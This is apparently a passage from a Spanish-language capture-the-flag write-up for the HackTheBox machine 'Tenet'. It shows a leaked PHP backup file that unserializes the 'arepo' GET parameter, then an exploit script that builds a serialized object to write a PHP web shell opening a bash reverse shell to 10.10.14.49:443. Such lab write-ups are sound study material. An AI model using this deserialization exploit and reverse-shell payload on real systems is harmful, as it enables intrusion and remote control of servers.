 Leyendo el comentario anterior del usuario Neil veo que habla de un backup, así que pruebo con sator.php.bak y me descargo el archivo.

http://sator.tenet.htb/sator.php.bak

```php
<?php

class DatabaseExport
{
        public $user_file = 'users.txt';
        public $data = '';

        public function update_db()
        {
                echo '[+] Grabbing users from text file <br>';
                $this-> data = 'Success';
        }


        public function __destruct()
        {
                file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
                echo '[] Database updated <br>';
        //      echo 'Gotta get this working properly...';
        }
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```

Analizando el código vemos que usa la función **GET** con la variable **arepo** y la deserializa, con lo cual intuyo que el vector de ataque puede ser **PHP Object  Deserialization**.

El script tiene una clase llamada **DatabaseExport** que utiliza la función **file_put_contents** para escribir el valor de la variable **data** en el fichero previamente definido en **user_file** y luego lo copia al directorio /.


Además al acceder a users.txt devuelve **Succes**.


Encuentro una página donde explican como explotar la vulnerabilidad:
https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a

Me creo un fichero con el siguiente contenido:

```php
<?php
class DatabaseExport {
  public $user_file = 'shell.php';
  public $data = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/10.10.14.49/443 0>&1\'"); ?>';
  }

print urlencode(serialize(new DatabaseExport));
?>
```

